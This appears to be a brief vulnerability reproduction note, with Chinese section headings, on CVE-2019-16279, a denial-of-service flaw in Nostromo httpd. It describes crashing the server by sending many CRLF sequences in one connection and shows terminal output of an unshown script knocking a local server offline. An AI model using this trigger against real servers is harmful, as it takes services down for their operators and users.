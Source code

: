 ```yaml
---
title: "（CVE-2019-16279）Nostromo httpd dos"
id: zhfly3053
---
```


# （CVE-2019-16279）Nostromo httpd dos

## 一、漏洞简介

（CVE-2019-16279）dos

## 二、影响范围

## 三、复现过程

This bug exploit a memory error when sending too many `\r\n` in a single connexion.

Example

```
$ curl http://127.0.0.1:8080
HELLO!
$ ./CVE-2019-16279.sh 127.0.0.1 8080
$ curl http://127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused 
```